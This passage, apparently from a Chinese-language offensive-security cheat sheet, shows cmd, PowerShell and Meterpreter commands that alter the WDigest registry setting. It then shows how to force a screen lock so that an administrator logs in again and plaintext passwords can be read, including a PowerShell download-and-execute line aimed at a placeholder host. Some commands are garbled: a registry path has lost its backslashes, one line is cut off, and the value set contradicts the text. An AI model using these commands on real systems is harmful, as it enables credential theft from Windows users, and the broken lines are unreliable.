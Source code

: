 - cmd
    ```
    reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
    ```

- powershell
    ```
    Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 0
    ```

- meterpreter
    ```
    reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCreden
    ```

**让管理员重新登录**

在开启 Wdigest Auth 后，需要管理员重新登录才能抓明文密码。

强制锁屏

- cmd
    ```
    rundll32 user32.dll,LockWorkStation
    ```

- powershell
    ```powershell
    Function Lock-WorkStation
    {
    $signature = @"
    [DllImport("user32.dll", SetLastError = true)]
    public static extern bool LockWorkStation();
    "@
    $LockWorkStation = Add-Type -memberDefinition $signature -name "Win32LockWorkStation" -namespace Win32Functions -passthru
    $LockWorkStation::LockWorkStation() | Out-Null
    }
    Lock-WorkStation
    ```
    ```
    powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://x.x.x.x/Lock-WorkStation.ps1');"
    ```

    重新读取，可读到明文密码。

---

# 离线抓取
